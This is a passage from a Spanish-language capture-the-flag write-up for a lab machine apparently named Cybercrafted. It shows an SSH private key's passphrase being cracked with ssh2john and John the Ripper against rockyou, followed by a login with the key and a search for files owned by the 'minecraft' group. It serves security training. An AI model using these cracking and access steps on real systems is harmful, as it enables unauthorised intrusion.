 
* Usamos ssh2john para desencriptar esta rsa, y procedemos a desencriptarla teniendo éxito.


```java
# ssh2john id_rsa > hash
# john -wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
########      (id_rsa)     
1g 0:00:00:00 DONE (2024-11-17 04:59) 1.298g/s 2462Kp/s 2462Kc/s 2462KC/s creepygoblin..creeep
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* Otorgamos permisos al id_rsa y nos conectamos con la credencial posteriormente descifrada.

```java
# chmod 600 id_rsa
# ssh xxultimatecreeperxx@$target_ip -i id_rsa
The authenticity of host '10.10.87.41 (10.10.87.41)' can't be established.
ED25519 key fingerprint is SHA256:ebA122u0ERUidN6lFg44jNzp3OoM/U4Fi4usT3C7+GM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.87.41' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

* Vemos que pertenecemos a un grupo 'minecraft'.

```java
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ uname -a
Linux cybercrafted 4.15.0-159-generic #167-Ubuntu SMP Tue Sep 21 08:55:05 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

xxultimatecreeperxx@cybercrafted:/opt/minecraft$ id
uid=1001(xxultimatecreeperxx) gid=1001(xxultimatecreeperxx) groups=1001(xxultimatecreeperxx),25565(minecraft)
```

* Procedemos a buscar rutas con este grupo, vemos una flag y demas cosas en /opt/minecraft

        find / -type f -group minecraft 2>/dev/null | more

<img src="imgs/Cyber-craft/Cyber-craft17.png">
